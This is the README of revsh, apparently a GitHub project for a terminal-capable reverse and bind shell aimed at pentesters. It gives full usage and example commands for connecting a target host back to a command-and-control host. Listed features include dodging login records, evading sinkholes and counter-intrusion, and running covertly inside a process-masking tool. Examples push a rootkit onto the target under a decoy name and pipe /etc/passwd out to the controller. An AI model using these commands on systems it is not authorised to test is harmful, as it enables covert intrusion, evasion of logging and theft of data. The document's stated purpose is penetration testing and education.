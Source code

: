 # revsh #

_revsh_ is a tool for establishing a [reverse shell](http://en.wikipedia.org/wiki/Reverse_shell) with [terminal](http://en.wikipedia.org/wiki/Computer_terminal) support.

**What is a "reverse shell"?**

A reverse shell is a network connection that grants [shell](http://en.wikipedia.org/wiki/Shell_%28computing%29) access to a remote host. As opposed to other remote login tools such as [telnet](http://en.wikipedia.org/wiki/Telnet) and [ssh](http://en.wikipedia.org/wiki/Secure_Shell), a reverse shell is initiated by the remote host. This technique of connecting outbound from the remote network allows for circumvention of firewalls that are configured to block inbound connections only. 

**What is a "bind shell"?**

A [bind shell](http://en.wikipedia.org/wiki/Shellcode#Remote) is a shell that is served from a normal forward network connection. _revsh_ supports both reverse and bind shells. To invoke a bind shell, either call _revsh_ with the _-b_ flag on both ends of the connection, or call the binary as 'bindsh'.


**Can't I just use [netcat](http://en.wikipedia.org/wiki/Netcat)?**

There are [many techniques](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) for establishing a reverse shell, but these methods don't provide terminal support. _revsh_ allows for a reverse shell whose connection is mediated by a [pseudo-terminal](http://en.wikipedia.org/wiki/Pseudoterminal), and thus allows for features such as:

 * [job control](http://en.wikipedia.org/wiki/Job_control)
 * [control character processing](http://en.wikipedia.org/wiki/Control_character) (e.g [Ctrl-C](http://en.wikipedia.org/wiki/Control-C))
 * [auto-completion](http://en.wikipedia.org/wiki/Auto-completion)
 * support for programs requiring a [controlling tty](https://github.com/emptymonkey/ctty) (e.g. [sudo](http://en.wikipedia.org/wiki/Sudo))
 * [processing of window re-size events](http://linux.die.net/man/4/tty_ioctl)

In addition, _revsh_ also offers the following features:
 * [UTF-8](http://en.wikipedia.org/wiki/UTF-8) support.
 * Circumvents [utmp / wtmp](http://en.wikipedia.org/wiki/Utmp). (No login recorded.)
 * Processes [rc file](http://en.wikipedia.org/wiki/Run_commands) commands upon login for easy scripting.
 * [OpenSSL](https://www.openssl.org/) encryption with key based authentication baked into the binary.
 * Anonymous [Diffie-Hellman](http://en.wikipedia.org/wiki/Diffie%E2%80%93Hellman_key_exchange) encryption upon request.
 * Ephemeral Diffie-Hellman encryption as default. (Now with more [Perfect Forward Secrecy](http://en.wikipedia.org/wiki/Forward_secrecy)!)
 * [Cert pinning](http://en.wikipedia.org/wiki/Transport_Layer_Security#Certificate_pinning) for protection against [sinkholes](http://en.wikipedia.org/wiki/DNS_sinkhole) and [mitm](http://en.wikipedia.org/wiki/Man-in-the-middle_attack) counter-intrusion.
 * Connection timeout for remote process self-termination.
 * Randomized retry timers for non-predictable auto-reconnection.
 * Netcat style non-interactive data brokering for file transfer.

_revsh_ is intended as a supplementary tool for a [pentester's](http://en.wikipedia.org/wiki/Pentester) toolkit that provides the full set of terminal features across an encrypted tunnel. All together in a small (~50k) easy to use binary.

**Where can I use _revsh_?**

_revsh_ was developed on x86_64 Linux. Here is a brief list of Arch / OS combinations that it has been used on:
 * x86_64 Linux
 * i686 Linux
 * amd64 FreeBSD

(If you have successfully used revsh on another platform, drop me a line and I'll add it to the list.)

## Usage ##

	empty@monkey:~$ revsh -h
	
	usage:    revsh [-c [-a] [-d KEYS_DIR] [-f RC_FILE]] [-s SHELL] [-t SEC] [-r SEC1[,SEC2]] [-b [-k]] [-n] [-v] [ADDRESS:PORT]

	  -c              Run in command and control mode.                 (Default is target mode.)
	  -a              Enable Anonymous Diffie-Hellman mode.            (Default is "!ADH:DHE-RSA-AES256-SHA".)
	  -d KEYS_DIR     Reference the keys in an alternate directory.    (Default is "~/.revsh/keys/".)
	  -f RC_FILE      Reference an alternate rc file.                  (Default is "~/.revsh/rc".)
	  -s SHELL        Invoke SHELL as the remote shell.                (Default is "/bin/bash".)
	  -t SEC          Set the connection timeout to SEC seconds.       (Default is "3600".)
	  -r SEC1,SEC2    Set the retry time to be SEC1 seconds, or        (Default is "600,1200".)
	                  to be random in the range from SEC1 to SEC2.
	  -b              Start in bind shell mode.                        (Default is reverse shell mode.)
	  -k              Start the bind shell in keep-alive mode.         (Ignored in reverse shell mode.)
	  -n              Non-interactive netcat style data broker.        (Default is interactive w/remote tty.)
	                  No tty. Useful for copying files.
	  -v              Verbose output.
	  -h              Print this help.
	  ADDRESS:PORT    The address and port of the listening socket.    (Default is "127.0.0.1:9999".)

	  Notes:
	      * The -b flag must be invoked on both the control and target hosts to enable bind shell mode.
	      * Bind shell mode can also be enabled by invoking the binary as 'bindsh' instead of 'revsh'.
	      * Verbose output may mix with data if -v is used together with -n.

	  Interactive example:
	      local controller host:    revsh -c 192.168.0.42:443
	      remote target host:       revsh 192.168.0.42:443

	  Non-interactive example:
	      local controller host:    cat ~/bin/rootkit | revsh -n -c 192.168.0.42:443
	      remote target host:       revsh 192.168.0.42:443 > ./totally_not_a_rootkit


## Example ##

First, setup the local host to be the command and control host (e.g. "monkey"):

	empty@monkey:~$ revsh -c 192.168.0.42:9999

Then connect out from the remote target host (e.g. "kitty"):

	target@kitty:~$ ./revsh 192.168.0.42:9999

We will now find a shell waiting for us back at the control host:

	Listening on 192.168.0.42:9999...  Connected!
	 Remote fingerprint expected: 09a348e737b96961d7ff9d55f958e771828f839e
	 Remote fingerprint received: 09a348e737b96961d7ff9d55f958e771828f839e
	Initializing... Done!
	
	################################
	# hostname: kitty
	# ip address: 192.168.0.123
	# real user: target
	# effective user: target
	################################
	target@kitty:/$ ls -l /etc/passwd
	-rw-r--r-- 1 root root 1538 Jul 18 22:50 /etc/passwd
	target@kitty:/$

Note, if you configured the binary at build time to change the IP:PORT address to 192.168.0.42:9999, then the above example becomes even cleaner:

	empty@monkey:~$ revsh -c
	target@kitty:~$ ./revsh

For a covert reverse shell, _revsh_ can be invoked from within [_mimic_](https://github.com/emptymonkey/mimic) on the target host:

	empty@monkey:~$ revsh -c
	target@kitty:~$ /tmp/mimic -e '/tmp/revsh -s "/tmp/mimic -e /bin/bash"'

For netcat style data transfer (with all of the crypto benefits of _revsh_) invoke _revsh_ with the -n switch. This is useful for moving tools on to the target host:

	empty@monkey:~$ cat rootkit.tar | ./revsh -c -n
	target@kitty:~$ ./revsh >./totally_not_a_rootkit.tar
	

Or for moving data out from the target host:

	empty@monkey:~$ revsh -c
	target@kitty:~$ cat /etc/passwd | ./revsh -n


## Installation ##

	git clone https://github.com/emptymonkey/revsh.git
	cd revsh
	vi config.h        # Set up new defaults that fit your situation.
	make               # This *can* take a very long time, though it usually doesn't.
	make install
	cd ~/.revsh
	vi rc              # Add your favorite startup commands to really customize the feel of your remote shell.
	./revsh -h

## Roadmap ##

Currently working on:
* Local / Remote static port forwarding support.
* SOCKS 5 proxy dynamic port forwarding support.

Features planned for future releases:
* Curses interface.
* Escape character support. (Similar to SSH's '~' escape character suite.)
* Escape character command line. (Similar to SSH's '~C'.) Commands will include:
    * File upload / download.
    * Proxy creation.
    * Node mapping.
* Rearrange communication into a mesh topology. 

## A Quick Note on Ethics ##

I write and release these tools with the intention of educating the larger [IT](http://en.wikipedia.org/wiki/Information_technology) community and empowering legitimate pentesters. If I can write these tools in my spare time, then rest assured that the dedicated malicious actors have already developed versions of their own.


